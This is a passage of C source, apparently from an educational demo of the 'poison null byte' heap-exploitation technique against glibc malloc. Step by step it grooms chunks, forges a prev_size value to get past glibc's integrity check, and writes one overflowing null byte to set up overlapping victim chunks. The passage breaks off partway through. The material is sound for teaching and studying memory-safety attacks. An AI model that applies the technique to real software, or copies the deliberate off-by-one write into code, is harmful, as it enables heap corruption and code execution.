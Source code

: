 ```
     * the least significant byte of this will be 0x10, because the size of the chunk includes
     * the amount requested plus some amount required for the metadata. */
    b = (uint8_t*) malloc(0x200);

    fprintf(stderr, "b: %pn", b);

    c = (uint8_t*) malloc(0x100);
    fprintf(stderr, "c: %pn", c);

    barrier =  malloc(0x100);
    fprintf(stderr, "We allocate a barrier at %p, so that c is not consolidated with the top-chunk when freed.n"
        "The barrier is not strictly necessary, but makes things less confusingn", barrier);

    uint64_t* b_size_ptr = (uint64_t*)(b - 8);

    // added fix for size==prev_size(next_chunk) check in newer versions of glibc
    // https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=17f487b7afa7cd6c316040f3e6c86dc96b2eec30
    // this added check requires we are allowed to have null pointers in b (not just a c string)
    //*(size_t*)(b+0x1f0) = 0x200;
    fprintf(stderr, "In newer versions of glibc we will need to have our updated size inside b itself to pass "
        "the check 'chunksize(P) != prev_size (next_chunk(P))'n");
    // we set this location to 0x200 since 0x200 == (0x211 &amp; 0xff00)
    // which is the value of b.size after its first byte has been overwritten with a NULL byte
    *(size_t*)(b+0x1f0) = 0x200;

    // this technique works by overwriting the size metadata of a free chunk
    free(b);

    fprintf(stderr, "b.size: %#lxn", *b_size_ptr);
    fprintf(stderr, "b.size is: (0x200 + 0x10) | prev_in_usen");
    fprintf(stderr, "We overflow 'a' with a single null byte into the metadata of 'b'n");
    a[real_a_size] = 0; // &lt;--- THIS IS THE "EXPLOITED BUG"
    fprintf(stderr, "b.size: %#lxn", *b_size_ptr);

    uint64_t* c_prev_size_ptr = ((uint64_t*)c)-2;
    fprintf(stderr, "c.prev_size is %#lxn",*c_prev_size_ptr);

    // This malloc will result in a call to unlink on the chunk where b was.
    // The added check (commit id: 17f487b), if not properly handled as we did before,
    // will detect the heap corruption now.
    // The check is this: chunksize(P) != prev_size (next_chunk(P)) where
    // P == b-0x10, chunksize(P) == *(b-0x10+0x8) == 0x200 (was 0x210 before the overflow)
    // next_chunk(P) == b-0x10+0x200 == b+0x1f0
    // prev_size (next_chunk(P)) == *(b+0x1f0) == 0x200
    fprintf(stderr, "We will pass the check since chunksize(P) == %#lx == %#lx == prev_size (next_chunk(P))n",
        *((size_t*)(b-0x8)), *(size_t*)(b-0x10 + *((size_t*)(b-0x8))));
    b1 = malloc(0x100);

    fprintf(stderr, "b1: %pn",b1);
    fprintf(stderr, "Now we malloc 'b1'. It will be placed where 'b' was. "
        "At this point c.prev_size should have been updated, but it was not: %#lxn",*c_prev_size_ptr);
    fprintf(stderr, "Interestingly, the updated value of c.prev_size has been written 0x10 bytes "
        "before c.prev_size: %lxn",*(((uint64_t*)c)-4));
    fprintf(stderr, "We malloc 'b2', our 'victim' chunk.n");
    // Typically b2 (the victim) will be a structure with valuable pointers that we want to control

    b2 = malloc(0x80);
    fprintf(stderr, "b2: %pn",b2);
```